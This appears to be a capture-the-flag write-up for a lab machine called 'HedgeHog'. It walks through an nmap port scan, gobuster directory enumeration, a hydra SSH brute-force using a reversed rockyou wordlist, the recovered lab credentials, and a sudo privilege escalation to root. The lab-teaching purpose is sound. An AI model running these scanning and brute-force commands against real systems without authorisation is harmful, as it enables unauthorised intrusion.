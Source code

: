 # HedgeHog

## Port Enumeration

We begin our scan using the Nmap tool during the discovery phase. The following open ports are identified:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining web page.

When accessing the web page, we see text containing the word "tails". Examining the source code reveals no additional information.

![alt text](Imagenes/HedgeHog_1.png)

### Directory-Listing

We use Gobuster to search for hidden directories or files:

```ruby
gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -r 
```

However, no interesting results are found.


![alt text](Imagenes/HedgeHog_2.png)


## Intrusion

We attempt to access the SSH service using "tails" as a potential username:


```ruby
sudo hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
``` 

![alt text](Imagenes/HedgeHog_3.png)

Initially, no valid password is found for the user "tails".

Given the hint in the word "tails", we decide to start from the end of the dictionary. We use the `tac` command to invert the password list:

```ruby
tac rockyou.txt >> rockyou_invertido.txt
```

We remove unnecessary spaces from the file:


![alt text](Imagenes/HedgeHog_4.png)

```ruby
sed -i 's/ //g' invertido.txt
```



![alt text](Imagenes/HedgeHog_5.png)

We then re-run Hydra with the inverted dictionary and successfully find the password:

![alt text](Imagenes/HedgeHog_6.png)

```ruby
user: tails
passwd: 3117548331
```

## Privilege Escalation

After connecting to the SSH service with the discovered credentials, we attempt to escalate privileges.

![alt text](Imagenes/HedgeHog_7.png)

We find that another user, "sonic", can execute any command. We switch to the sonic user and execute a terminal to escalate to root. 

![alt text](Imagenes/HedgeHog_8.png)